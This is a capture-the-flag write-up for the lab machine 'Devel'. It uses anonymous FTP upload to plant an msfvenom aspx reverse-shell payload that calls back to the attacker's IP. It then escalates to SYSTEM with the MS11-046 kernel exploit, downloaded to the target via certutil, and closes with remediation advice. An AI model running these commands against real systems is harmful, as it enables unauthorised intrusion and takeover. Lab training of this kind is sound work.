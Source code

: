 # Devel without Metasploit

## Enumeration

### Run nmap scan:

#### **`nmap -T4 -p- -A 10.10.10.5`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![](../.gitbook/assets/devel-nmap.png)

#### Dissecting the Results:

* **Port 21:** Anonymous login is allowed, meaning, we can login with the username _**anonymous**_ and any password.
* **Port 80:** Running a Microsoft IIS HTTP web server.

Use the anonymous login for FTP and check the directory:

![](../.gitbook/assets/ftp-anon-logging-directory.png)

This looks as though the FTP server is in the same root as the web server. If this is the case, we could possibly upload our payload via FTP, we could navigate to it through the web server and gain a shell.

Let's test this theory by uploading a simple HTML file via FTP displaying the text "Hello world"

![HTML file and uploading via FTP](../.gitbook/assets/creating-test-page-and-putting-into-ftp-directory.png)

![Test page works](../.gitbook/assets/test-page-works.png)

## Exploitation

Great! The test was a success, so let's go ahead and craft a payload using msfvenom. Microsoft IIS typically uses asp and aspx file formats and they are also executables:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f aspx -o exploit.aspx
```

* **-p flag:** Payload type.
* **LHOST:** Listening IP address of the attacking machine.
* **LPORT:** Listening port of the attacking machine.
* **-f flag:** File format of payload.
* **-o flag:** Where to save the file as well as name the file.

Run your netcat listener:

```text
nc -nlvp 7777
```

Then navigate to the webpage that includes the payload. This may take a little while and the page will finish loading with a white background. Check the netcat listener and voila! A shell has been caught.

![Blank webpage when navigating to payload](../.gitbook/assets/navigating-to-reverse-shell-payload.png)

![Reverse Shell](../.gitbook/assets/reverse-shell%20%281%29.png)

When running `whoami` we discover we are _**iis apppool\web**_. We cannot access the C:\Users\babis and C:\Users\Administrator directories as we do not have permission. From here, we must escalate our privileges.

### Privilege Escalation

We must further enumerate the system and we can start by typing `systeminfo` for the following results:

![](../.gitbook/assets/systeminfo-os-version-and-system-type.png)

Google _**6.1.7600 N/A Build 7600 privilege escalation**_ and we will come across an Exploit-DB link titled '_**Microsoft Windows \(x86\) - 'afd.sys' Local Privilege Escalation \(MS11-046\)**_'. This is the exploit we will use. Within the exploit, it is noted we must compile it with the command:

![](../.gitbook/assets/command-to-compile-exploit.png)

```text
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

If mingw32 is not installed, we can do so with the command:

```text
apt-get install mingw-w64
```

In the Exploit-DB link, the ID for the exploit is 40564 so we will use searchsploit to copy the exploit to our directory we type it from:

```text
searchsploit -m 40564
```

Let's compile the exploit now with the command mentioned before, but slightly modified like so:

```text
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Once compiled, let's host an HTTP server of the directory:

```text
python -m SimpleHTTPServer 80
```

Then we will use the certutil command \(windows equivalent to linux's wget command\) to grab the exploit from our attacking machine's hosted directory. Before we do this, we must navigate to directory **C:\Users\Public\Downloads\** as we will get an "Access is denied" error message if we type it in the default directory we got the shell in.

```text
certutil -urlcache -f http://10.10.14.95/40564.exe 40564.exe
```

Check the directory to confirm we have the exploit, then simply run it. Run `whoami` and we confirm we now have System level privileges!

![](../.gitbook/assets/certutil-and-gaining-system-privs.png)

### User.txt and root.txt flags

Finally, grab your user and root flags.

![](../.gitbook/assets/user-and-root-flags%20%281%29.png)

## Lessons Learned

We were able to gain a foothold on the machine due to insecure configuration of the FTP server. We were able to use anonymous login and discovered the FTP server shared the same root directory as the HTTP server and could confirm this by uploading a simple HTML test file then navigating to it in a web browser. This proved we could upload an exploit and gain a low privileged shell.

To prevent this vulnerability being exploited, one of the following should be done:

* Disable anonymous login to the FTP server.
* If anonymous login is necessary, disable the ability to upload and only allow downloads from the FTP server.

The other vulnerability that was exploited was the Windows kernel for privilege escalation. This could have been remediated if the system was updated and patched.

